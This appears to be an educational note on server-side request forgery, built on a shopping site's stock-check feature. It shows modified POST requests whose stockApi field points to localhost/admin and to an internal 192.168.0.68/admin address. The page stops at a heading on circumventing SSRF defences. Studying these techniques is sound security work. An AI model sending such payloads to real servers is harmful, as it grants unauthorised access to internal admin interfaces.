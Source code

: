 --- ---

<h2>Common Attacks</h2>

Attacks Against the Server Itself
- Attacker induces the application to make an HTTP request back to the server that is hosting the application (via loopback)
- Involves supplying the URL with a hostname like 127.0.0.1 or localhost
- Example code -- shopping application that allows user to check stock
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D
6%26storeId%3D1
```
	- Makes request to the URL
	- Retrieves the stock status
	- Return to the user
- Modify this for an attack:
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-
urlencoded
Content-Length: 118
stockApi=http://localhost/admin
```
	- Server fetches contents of the /admin url and returns to the user
	- Authenticates as the machine/server itself

Attacks Against Other Systems
- Assume there is an administrative interface at https://192.168.0.68/admin
- Attack can exploit and access this:
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-
urlencoded
Content-Length: 118
stockApi=http://192.168.0.68/admin
```

Circumventing Common SSRF Defenses
